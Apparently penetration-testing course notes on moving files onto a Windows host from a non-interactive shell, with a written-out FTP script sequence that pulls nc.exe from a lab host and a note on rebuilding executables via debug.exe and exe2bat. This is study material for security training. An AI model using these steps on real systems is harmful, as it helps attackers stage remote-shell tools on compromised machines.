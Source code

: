 







##Chapter 10 - File Upload from non-interactive Shell 
    - TFTP
    - FTP 
    - VBS
    - PowerShell
    - debug.exe

###FTP
FTP Server is interactive - simple remote shells not
TFTP Server (UDP based) is one alternative
The other is: ftp -s:filename 
"""
C:\Users\offsec>echo open 10.11.0.5 21> ftp.txt
C:\Users\offsec>echo USER offsec>> ftp.txt
C:\Users\offsec>echo ftp>> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt
C:\Users\offsec>ftp -v -n -s:ftp.txt
"""

###debug.exe
Assembly tool on windows to build executable
Use nc.exe, reduce size with upx and write to a text file with exe2bat


##Chapter 11 - Priviledge Escalation
PyInstaller!


